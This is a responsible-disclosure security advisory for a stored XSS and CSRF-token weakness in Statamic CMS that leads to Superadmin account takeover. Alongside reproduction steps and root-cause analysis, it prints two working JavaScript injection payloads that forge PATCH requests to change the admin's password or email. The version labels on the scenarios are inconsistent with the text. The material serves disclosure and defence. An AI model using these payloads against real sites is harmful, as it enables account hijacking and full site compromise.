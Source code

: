 # GHSA-g59r-24g3-h7cm
Privilege Escalation in Statamic CMS - Superadmin Account Takeover PoC

> [!IMPORTANT]
> **Responsible Disclosure Notice**  
> This vulnerability was reported to the vendor/maintainer ([Statamic](https://github.com/statamic)) following a responsible disclosure process.  
> The maintainer was given more than **90 days** to acknowledge the security advisory and provide a fix, in line with industry-standard disclosure policies.  
>  
> The CVE has already been assigned - **CVE-2025-64112**.


### Summary
There is a critical privilege escalation vulnerability in the Laravel-based content management system **Statamic CMS** that can be exploited to take over a Superadmin account. This issue comes from a combination of stored Cross-Site Scripting (XSS) vulnerabilities, which remain exploitable up to version `5.22.0` and are patched in version `5.22.1`. 

These vulnerabilities allow attackers to run malicious JavaScript in the victim's browser. A low-privileged user can inject harmful content into the **Statamic CMS**, setting a trap for the Superadmin. When the Superadmin accesses this content, the exploit runs in their session, enabling the attacker to gain higher privileges and potentially take over the system.

This problem is also related to the lack of proper server-side validation of the X-CSRF-TOKEN used in PATCH requests, which makes it easier for the attacker to change important account details like the Superadmin's password or email address.

This advisory explains the technical details, provides proof-of-concept exploits, and discusses the risks posed by these vulnerabilities, focusing on how the attack can be carried out.

### Vulnerability Overview
#### Severity: **Critical**
#### Affected Versions: **Up to and including the latest version 5.22.0**

This vulnerability is a chain attack that leverages stored XSS to escalate privileges within the CMS. It is essential to note that for this attack to be successful, the Superadmin must either click on a malicious link sent by an attacker or simply visit a compromised Collection or Taxonomy within the CMS. Once the Superadmin interacts with the infected content, the malicious JavaScript code is executed in their browser, leading to one of two potential outcomes:

1. **In versions ≤ 5.21.0**: The attacker can automatically change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
2. **In version 5.22.0**: Although the password change mechanism has been secured, the attacker can still change the email address associated with the Superadmin account. This allows the attacker to initiate a password reset, gain control of the account, and access the system with the highest level of privileges.


### Steps to Reproduce

The following steps outline how to reproduce the vulnerability that allows for Superadmin account takeover via Stored Cross-Site Scripting (XSS) and insufficient X-CSRF-TOKEN validation:

1. **Create a Superadmin Account ("User1"):**
   - If this is a fresh installation, create a Superadmin account within the CMS. This account will be referred to as "User1."

2. **Create a Low-Privileged User ("User2"):**
   - Using the Superadmin account ("User1"), create a new user with low-level privileges, referred to as "User2."
   - Assign "User2" access to the Control Panel, the User list, and grant read-write permissions to Collections and/or Taxonomies.

3. **Initiate a Session as "User2":**
   - Log in as "User2" to the CMS.

4. **Inject Malicious Script:**
   - Create a new Collection or Taxonomy within the CMS as "User2."
   - Inject a malicious JavaScript payload into one of the fields that will be stored and rendered when viewed by the Superadmin.

5. **Trigger the Exploit:**
   - Wait for "User1" (the Superadmin) to access the compromised Collection or Taxonomy. This can be done by either:
     - Sending a phishing link that directs "User1" to the infected content.
     - Simply waiting for "User1" to browse the Collections or Taxonomies naturally.

6. **Observe the Outcome:**
   - Depending on the CMS version:
     - **Version ≤ 5.21.0:** The malicious script will change the Superadmin's password without requiring the current password, effectively locking the legitimate user out of their account.
     - **Version 5.22.0:** The malicious script will change the Superadmin's email address, allowing the attacker to initiate a password reset and gain control over the account.

These steps demonstrate how a low-privileged user can set up a trap for the Superadmin by exploiting the stored XSS vulnerability. The lack of proper server-side validation of the X-CSRF-TOKEN in PATCH requests makes it possible to carry out this attack, leading to a complete takeover of the Superadmin account.


### Details
The root cause of this vulnerability lies in insufficient input sanitization and validation across several components of the CMS. Specifically, the vulnerability allows for the injection of JavaScript code into forms used for creating or editing Collections, Taxonomies or Forms. These forms do not properly sanitize user input, allowing an attacker to store malicious scripts that execute when a Superadmin interacts with the compromised content.

In previous versions of the CMS, such as version 4.42.0, user inputs in certain views were not properly sanitized before being rendered on the page. For instance, in the `resources/views/partials/nav-main.blade.php` file, the variable `$item->name()` was rendered without adequate escaping or encoding. This lack of sanitization allowed attackers to inject arbitrary JavaScript code.

It looks like the vulnerability related to improper sanitization of user input, such as those found in version 4.42.0 of the Statamic CMS, is still present in the software, despite partial mitigations that have been implemented. In previous versions, like 4.42.0, user input in certain views, including the `resources/views/partials/nav-main.blade.php` file, were not adequately sanitized before being rendered on the page.

At the time of reporting the Multiple Stored Cross-Site Scripting vulnerability, version 4.42.0 was the latest available version of the Statamic CMS. Now, the software has been updated to version 5.22.0. While some improvements, such as the introduction of the `v-pre` directive, have been made to mitigate XSS risks in specific components, these mitigations appear to be incomplete. The underlying issue of inadequate input sanitization persists in other parts of the software.

For further details on the changes made, including the use of `v-pre`, please refer to the Reference section at the bottom of this Security Advisory. There is a link to a commit that shows the differences between certain versions of the affected file, highlighting the partial mitigation that was applied.

### PoC
#### Scenario 1: Superadmin Password Change (Version == 5.21.0)
> [!IMPORTANT] 
> In the `5.21.0` version, the CMS's password change mechanism did not require the current password. This allows an attacker to execute a stored XSS payload that automatically changes the Superadmin's password. The attack can be triggered by the Superadmin merely visiting a compromised Collection or Taxonomy or clicking on a malicious link.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>/password',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({current_password:null,password:'987654321',password_confirmation:'987654321'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

#### Scenario 2: Superadmin Email Address Change (Version ≤ 5.21.0)
> [!IMPORTANT] 
> In the latest version (5.22.0), the password change mechanism was hardened by requiring the current password. However, the stored XSS vulnerability still allows an attacker to change the email address associated with the Superadmin account. By altering the email address, the attacker can initiate a password reset process, gaining control over the account.

**Exploit:**

```javascript
{{constructor.constructor("(function(){function getXsrfToken(){var token=decodeURIComponent(document.cookie.match(/XSRF-TOKEN=([^;]+)/)[1]);return token.endsWith('%3D')?token.replace(/%3D$/, '='):token;}var req=new XMLHttpRequest();req.onload=function(){var changeReq=new XMLHttpRequest();changeReq.open('PATCH','http://0.0.0.0/cp/users/<Superadmin's UUID>',true);changeReq.setRequestHeader('Content-Type','application/json');changeReq.setRequestHeader('X-Requested-With','XMLHttpRequest');changeReq.setRequestHeader('X-XSRF-TOKEN',getXsrfToken());changeReq.send(JSON.stringify({name:'wojt',email:'wojtek@wojtek.com',roles:[],groups:[],id:'9f4d7960-bf66-4af4-8c30-b09eb24e06ea'}));};req.open('GET','/cp/users/<Superadmin's UUID>/edit',true);req.send();})()")()}}
```

### Impact
The successful exploitation of this vulnerability allows an attacker to gain full control over the Superadmin account, leading to:

- Complete administrative access to the Statamic CMS.
- Potential for lateral movement within the application.
- Significant risk of data leakage, modification, or deletion.
- Undermining the integrity and confidentiality of the entire Statamic CMS ecosystem.

### References
- https://github.com/statamic/cms/pull/9256/commits/d9f1e916556e749a03fba6163de6cd67c3830ffd

---

**PoC video:**

[![Watch the PoC on YouTube](https://img.youtube.com/vi/qx8axpmTz1E/maxresdefault.jpg)](https://www.youtube.com/watch?v=qx8axpmTz1E)


